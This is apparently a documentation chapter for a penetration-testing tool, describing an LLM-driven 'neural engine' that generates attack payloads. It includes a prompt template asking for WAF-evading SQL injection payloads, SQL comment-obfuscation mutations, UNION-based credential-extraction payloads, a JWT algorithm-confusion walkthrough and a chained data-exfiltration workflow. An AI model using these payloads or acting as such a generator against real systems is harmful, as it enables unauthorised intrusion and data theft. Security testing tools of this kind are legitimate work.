

/*
Copyright (c) 2026 José María Micoli
Licensed under the Business Source License 1.1
Change Date: 2033-02-17
Change License: Apache-2.0

You may:
✔ Study
✔ Modify
✔ Use for internal security testing

You may NOT:
✘ Offer as a commercial service
✘ Sell derived competing products
*/

# 07 - AI & Neural Engine Integration

> **For:** Advanced operators and researchers  
> **Read Time:** 20-25 minutes  
> **Difficulty:** ⭐⭐⭐⭐ Advanced  
> **Last Updated:** February 8, 2026

---

## 📑 Table of Contents

1. [Overview](#overview)
2. [Neural Engine Architecture](#architecture)
3. [Payload Generation](#payload-generation)
4. [Configuration](#configuration)
5. [Advanced Techniques](#advanced-techniques)
6. [Best Practices](#best-practices)

---

## Overview

> <span style="background-color: #7c3aed; color: white; padding: 2px 6px; border-radius: 3px;">**AI-POWERED**</span> The **Neural Engine** leverages LLMs to generate intelligent payloads and attack strategies. No fixed patterns—generates unique, adaptive exploits in real-time.

### Architecture



### Supported LLM Providers

| Provider | Model | Speed | Cost | Notes |
|----------|-------|-------|------|-------|
| **Groq** | LLaMA2 70B | ⭐⭐⭐⭐⭐ Fast | 💰 Cheapest | Recommended |
| **OpenAI** | GPT-4 | ⭐⭐⭐ Medium | 💰💰💰 Expensive | Most capable |
| **Anthropic** | Claude 3 | ⭐⭐⭐⭐ Fast | 💰💰 Moderate | Best reasoning |
| **Local** | Ollama | ⭐⭐ Slower | 💰 Free | Privacy-focused |

---

## Neural Engine Architecture

### Component 1: Prompt Engineering

The neural engine constructs intelligent prompts:

```
You are a security testing AI. Generate {count} unique SQL injection payloads
for the parameter "{param}" in the context:

Target: {url}
Parameter: {param}
Expected Type: {type}
Recent Response: {response}

Generate payloads that:
1. Test authentication bypass
2. Test data extraction
3. Avoid common WAF patterns
4. Include time-based blind techniques

Format: JSON array of payloads
```

### Component 2: Payload Mutation

Mutates successful payloads:

```go
// Original payload
SELECT * FROM users WHERE id=1

// Mutations generated:
SELECT /*!50000* / * FROM users WHERE id=1
SELE/**/CT * FROM users WHERE id=1
SELECT * FROM users WHERE (id)=(1)
SELECT * FROM /*!50000users*/ WHERE id=1
```

### Component 3: Response Analysis

Validates if payloads succeeded:

```
Response: {response_body}
Status: {status_code}
Time: {elapsed_ms}

Indicators of success:
✓ SQL error in response
✓ Unusual data returned
✓ Response time 5+ seconds (blind SQLi)
✓ Changed response size (boolean SQLi)

Confidence: 95% (SQL Injection successful)
```

---

## Payload Generation

### Command: `neuro on`

Enables neural engine:

```bash
> neuro on
[cyan]NEURAL:[-] Initializing AI engine...
[blue]LLM:[-] Connected to Groq (free tier)
[green]✓ NEURAL:[-] Ready. Use 'ask' command for payloads
```

### Command: `neuro-gen`

Generates AI payloads:

**Syntax:** `neuro-gen <context> [count]`

```bash
> neuro-gen "SQL injection on /api/search parameter" 10

[cyan]PAYLOAD_GEN:[-] Requesting AI payloads...
[blue]LLM:[-] Generating 10 unique SQL injection payloads...
[yellow]PAYLOAD 1:[-] 1' UNION SELECT NULL,username,password FROM users--
[yellow]PAYLOAD 2:[-] 1' AND 1=1 UNION ALL SELECT 1,2,3,4,5--
[yellow]PAYLOAD 3:[-] 1' AND (SELECT COUNT(*) FROM information_schema.tables)>0--
[yellow]PAYLOAD 4:[-] 1' /*!50000UNION*/ /*!50000SELECT*/ username FROM users--
[yellow]PAYLOAD 5:[-] 1' OR '1'='1
...
[cyan]PAYLOADS:[-] Generated 10 payloads. Testing now...
[green]✓ SUCCESS:[-] Payload 1 confirmed SQL injection!
```

**Parameters:**
- `context` - Description of what to generate (e.g., "XSS in user profile", "JWT bypass")
- `count` - (Optional) Number of payloads to generate (default: 10)

### Command: `test-neuro`

Tests neural engine accuracy:

```bash
> test-neuro
[cyan]TEST:[-] Validating neural engine...
[blue]TEST 1:[-] SQL Injection Detection
  Generated: 15 payloads
  Successful: 12 (80% accuracy)
  Result: ✅ PASSED
  
[blue]TEST 2:[-] XSS Payload Generation
  Generated: 20 payloads
  Successful: 18 (90% accuracy)
  Result: ✅ PASSED
  
[blue]TEST 3:[-] Response Analysis
  Testing false positive rate
  Result: ✅ 2% false positive (acceptable)
  
[green]✓ ALL TESTS PASSED
```

### Command: `ask`

Interactive AI assistance:

```bash
> ask "Generate authentication bypass for Bearer tokens"

[cyan]AI:[-] Let me analyze your request...
[blue]RESPONSE:[-]
"For Bearer token bypass, consider:
1. Token manipulation (change claims)
2. JWKS key confusion
3. Algorithm swap (HS256 vs RS256)
4. Expired token bypass (remove exp claim)

I recommend testing JWT signature verification first.
Would you like me to generate JWT manipulation payloads?"

> yes
[cyan]GENERATING:[-] 5 JWT bypass payloads...
```

---

## Configuration

### Setup API Key

**Syntax:** `neuro config <provider> <model> [api_key] [endpoint]`

#### For Groq (Recommended - Free):

```bash
# Get API key from https://console.groq.com
> neuro config groq llama-3.1-8b gsk_xxxxx

[green]✓ CONFIG:[-] Groq API key configured
[cyan]TIER:[-] Free tier (5,000 tokens/min)
```

#### For OpenAI:

```bash
> neuro config openai gpt-4o sk_proj_xxxxx

[green]✓ CONFIG:[-] OpenAI API key configured
[cyan]TIER:[-] $0.03 per 1K tokens (GPT-4)
```

#### For Local (Ollama):

```bash
> neuro config ollama mistral

[green]✓ CONFIG:[-] Local LLM configured (Ollama)
[cyan]MODEL:[-] Using mistral (no API costs)
```

#### For Google Gemini:

```bash
> neuro config google gemini-1.5-flash AIza_xxxxx

[green]✓ CONFIG:[-] Google Gemini configured
[cyan]MODEL:[-] Using gemini-1.5-flash
```

#### For Hybrid Mode (Cloud + Local Fallback):

```bash
> neuro config hybrid gpt-4o sk_proj_xxxxx

[magenta]✓ CONFIG:[-] Hybrid mode configured
[cyan]PRIMARY:[-] OpenAI GPT-4o
[cyan]FALLBACK:[-] Local Ollama
```

---

## Advanced Techniques

### Technique 1: Adaptive Payload Generation

System learns from test results:

```bash
> neuro-gen --endpoint /api/search --adaptive

[cyan]ROUND 1:[-] Testing generic payloads
  • 5 payloads generated
  • 2 bypassed WAF
  • 3 blocked

[cyan]ROUND 2:[-] Adapting to WAF patterns
  • AI removes common WAF triggers
  • 8 new payloads generated
  • 6 bypassed WAF

[cyan]ROUND 3:[-] Final optimization
  • 12 payloads tested
  • 10 confirmed vulnerable
  • Exploitation ready!
```

### Technique 2: Multi-Stage Attack Generation

Generate chained attacks:

```bash
> neuro-gen --chain 3 --objective data-exfiltration

[cyan]STAGE 1:[-] Authentication Bypass
  • Generate JWT forgery payloads
  • Test token manipulation

[cyan]STAGE 2:[-] Privilege Escalation
  • Generate admin bypass payloads
  • Test role manipulation

[cyan]STAGE 3:[-] Data Extraction
  • Generate SQL injection for data theft
  • Exfiltrate sensitive records

[cyan]OUTPUT:[-] Complete 3-stage attack chain
```

### Technique 3: Custom Prompt

```bash
> ask custom
[input-prompt]> 
"Target: JWT API
Current token: eyJ...
Vulnerability: Algorithm confusion
Generate payload to change algorithm from RS256 to HS256"

[cyan]AI_RESPONSE:[-]
"Here's the attack strategy:
1. Decode the JWT
2. Change 'alg' from 'RS256' to 'HS256'
3. Sign with server's public key (now treated as HMAC secret)
4. Send modified token

Payload: {modified_jwt}"
```

---

## Best Practices

✅ **DO:**
- Start with fast, cheap providers (Groq for free tier)
- Use neural engine for complex payloads (not simple ones)
- Validate AI suggestions manually
- Cache successful payloads
- Use --adaptive for heavily protected APIs

❌ **DON'T:**
- Rely solely on AI (always verify manually)
- Use expensive providers for simple tests (use generic payloads)
- Send sensitive data to AI (use local models if needed)
- Ignore rate limits on AI provider
- Trust unvalidated AI payloads

---

**See Also:**
- [06_EXPLOITATION.md](06_EXPLOITATION.md) - Manual exploitation techniques
- [04_STRATEGIC_PLANNING.md](04_STRATEGIC_PLANNING.md) - Integration in attack plans

---

**Last Updated:** February 8, 2026  
**Version:** 1.0 - Production Ready
